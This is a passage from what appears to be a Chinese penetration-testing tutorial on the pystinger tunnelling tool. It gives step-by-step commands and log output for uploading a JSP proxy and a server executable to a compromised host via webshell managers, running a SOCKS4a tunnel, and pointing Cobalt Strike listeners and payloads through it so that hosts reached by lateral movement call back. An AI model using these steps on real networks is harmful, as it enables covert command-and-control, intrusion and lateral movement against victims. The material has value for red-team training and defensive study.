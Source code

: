 ```php
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

- cobalt strike添加监听,端口选择输出信息`RAT Config`中的Handler/LISTEN中的端口(通常为60020),beacons为**127.0.0.1**
- 生成payload,上传到主机运行后即可上线

#### **cobalt strike多主机上线**

- proxy.jsp上传到目标服务器,确保 <http://example.com:8080/proxy.jsp> 可以访问,页面返回 `UTF-8`
- 将stinger\_server.exe上传到目标服务器,蚁剑/冰蝎执行
    
    ```php
    start D:/XXX/stinger_server.exe 192.168.3.11
    ```
    
    启动服务端

> 192.168.3.11可以改成0.0.0.0

- stinger\_client命令行执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
- 如下输出表示成功

```php
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

- cobalt strike添加监听,端口选择RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为192.168.3.11(example.com的内网IP地址)
- 生成payload,上传到主机运行后即可上线
- 横向移动到其他主机时可以将payload指向192.168.3.11:60020即可实现出网上线
